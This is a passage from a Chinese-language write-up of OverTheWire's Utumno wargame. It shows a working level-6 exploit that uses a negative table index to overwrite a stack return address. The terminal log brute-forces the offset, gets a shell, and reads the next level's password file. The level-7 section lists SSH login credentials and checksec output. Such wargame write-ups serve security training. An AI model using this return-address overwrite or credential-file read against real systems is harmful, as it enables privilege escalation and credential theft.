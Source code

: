 返回地址在`0xffffd4bc`。

构造:

```
./utumno6 -1 0xffffd4bc  $(python -c 'print "\xcc\xdd\xff\xff"')
```

一个一个试出返回地址的栈位置,地址每次+0x10,也可以用第7道题用的地址枚举脚本。

```bash
utumno6@utumno:/utumno$ ./utumno6 -1 0xffffd4bc  $(python -c 'print "\xcc\xdd\xff\xff"')
Table position -1 has value -11076
Description: ����
utumno6@utumno:/utumno$ ./utumno6 -1 0xffffd4cc  $(python -c 'print "\xcc\xdd\xff\xff"')
Table position -1 has value -11060
Description: ����
utumno6@utumno:/utumno$ ./utumno6 -1 0xffffd4dc  $(python -c 'print "\xcc\xdd\xff\xff"')
Table position -256 has value -136216536
Description: ����
utumno6@utumno:/utumno$ ./utumno6 -1 0xffffd4ec  $(python -c 'print "\xcc\xdd\xff\xff"')
Table position -1 has value -11028
Description: ����
$ whoami
utumno7
$ cat /etc/utumno_pass/utumno7
totiquegae
$ 

```

比较有意思的题,一个不注意的有符号数比较而引起的漏洞。


## Utumno 07

**SSH :** ssh utumno7@utumno.labs.overthewire.org -p 2227

**Pass :** totiquegae


依旧选择dump到本地分析。

```bash
$ ./crawl.sh 7 totiquegae
sshpass -p totiquegae scp -P 2227 utumno7@utumno.labs.overthewire.org:/utumno/utumno7  .
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

[*] '/home/z1933/workplace/vbshare/ctf/utumno7'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

